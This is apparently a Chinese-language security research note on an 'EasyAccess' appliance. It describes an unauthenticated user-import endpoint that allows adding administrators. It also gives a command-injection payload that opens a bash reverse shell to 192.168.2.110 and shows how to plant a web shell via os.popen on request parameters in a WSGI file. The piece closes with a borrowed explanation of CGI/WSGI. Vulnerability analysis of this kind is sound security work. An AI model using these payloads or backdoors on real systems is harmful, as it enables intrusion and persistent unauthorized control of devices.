


# 1. 漏洞分析

1. 首先未授权获取目标设备的管理账户权限，在`/spog/importLocalUsers`中，可以未授权导入任意的用户，包含管理员，因此可以使用该接口添加管理员，管理员的密码同样可以通过导入设置

2. 字符串过滤不严格，可以构造命令，污染system执行，命令;bash -i >& /dev/tcp/192.168.2.110/12345 0>&1;#

# 配置文件分析

在httpd.conf配置文件查看可以访问的url以及对应的文件地址，例如配置文件有：
WSGIScriptAlias /__api__/v1 /usr/src/EasyAccess/www/python/authentication_api/authentication_api.py process-group=authentication application-group=%{GLOBAL}
那么访问/__api__/v1   https://192.168.2.109/__api__/v1，就可以执行/usr/src/EasyAccess/www/python/authentication_api/authentication_api.py
可以在authentication_api.py文件插入shell，或者在authentication_api.py调用的.py处插入shell
在authentication_api.py调用_init__.py插入os.popen(request.args.get('x')).read()，
那么访问https://192.168.2.109/__api__/v1?x=ls%20-l%20/;ifconfig就可以执行名
想办法获取x的值
request.args.get('x')，这里涉及到from flask import request利用

在Web部署的方案上，有一个方案是目前应用最广泛的：
	* 
首先，部署一个Web服务器专门用来处理HTTP协议层面相关的事情，比如如何在一个物理机上提供多个不同的Web服务（单IP多域名，单IP多端口等）这种事情。
	* 
然后，部署一个用各种语言编写（Java, PHP, Python, Ruby等）的应用程序，这个应用程序会从Web服务器上接收客户端的请求，处理完成后，再返回响应给Web服务器，最后由Web服务器返回给客户端。

那么，要采用这种方案，Web服务器和应用程序之间就要知道如何进行交互。为了定义Web服务器和应用程序之间的交互过程，就形成了很多不同的规范。这种规范里最早的一个是CGI][3，1993年开发的。后来又出现了很多这样的规范。比如改进CGI性能的FasgCGI，Java专用的Servlet规范，还有Python专用的WSGI规范等。提出这些规范的目的就是为了定义统一的标准，提升程序的可移植性。
WSGI工作流程以及调用关系见
作者：iqunqunqun
链接：https://www.jianshu.com/p/c66d3adeaaed
来源：简书

